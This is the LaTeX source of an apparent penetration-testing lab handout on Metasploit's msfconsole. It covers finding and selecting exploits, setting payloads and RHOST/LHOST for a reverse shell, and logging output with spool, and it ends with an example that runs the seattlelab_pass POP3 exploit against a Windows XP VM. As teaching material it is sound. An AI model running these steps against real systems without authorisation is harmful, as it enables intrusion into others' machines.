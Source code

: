 \documentclass{article}[12pt]
\begin{document}
\subsection{msfconsole}
In order to use metasploit framework you can go directly to Applications->Exploitation tools and go to Metasploit. This approach will run the terminal simultaneously running all
data bases and services in the background. If you wish you can run Metasploit directly from terminal by typing \texttt{msfconsole} but you might need to run postgresql service (\texttt{service postgresql start}).

\subsubsection{Searching for exploits, run exploit}

Now you need to see the info, options and payloads for the exploit by typing: \texttt{info, options, show payloads} respectively.
If you know what exploit you will be using you can directly type into msf console the following line:
\texttt{use <exploit/name>}. If you do not know the exploit you can check it online on www.rapid7.com
or by typing in msf console \texttt{search <exploit/tag/orname>} and then you can \texttt{use} it.
Afterwards you are moved to exploit subconsole. Now you need to set the payload: \texttt{set payload <payload/name>},
then if you type \texttt{options} again, you will see all mandatory options (for listener and reciever).
Now is time for setting up the options e.g: \texttt{set RHOST 192.168.4.56} or \texttt{set LHOST 192.168.4.56}
if you are using reverse shell (pushing the connection back to the listener (attack machine) rather than
waiting for an incoming connection from target which is more likely to make connection through firewall \cite{pen}).

\subsubsection{Outputing data}
If you want to output data somewhere (which is VERY usefull) you can use spooling before you start exploiting. Just type in msf console (before running exploit) \texttt{spool <file-name.txt/log/etc>}.
In order to turn off spooling use \texttt{spool off}. Spool saves the whole terminal output stream.
\paragraph{Example}
In this example you will get control over the Windows XP SP3 system which you installed as VM. In msfconsole run the following: \newline\newline
\texttt{use/windows/pop3/seattlelab\_pass} \newline
\texttt{set RHOST XXX.XXX.XXX.XXX} (your target IP) \newline and run the exploit by typing: \newline \texttt{exploit} \newline \newline
\end{document}
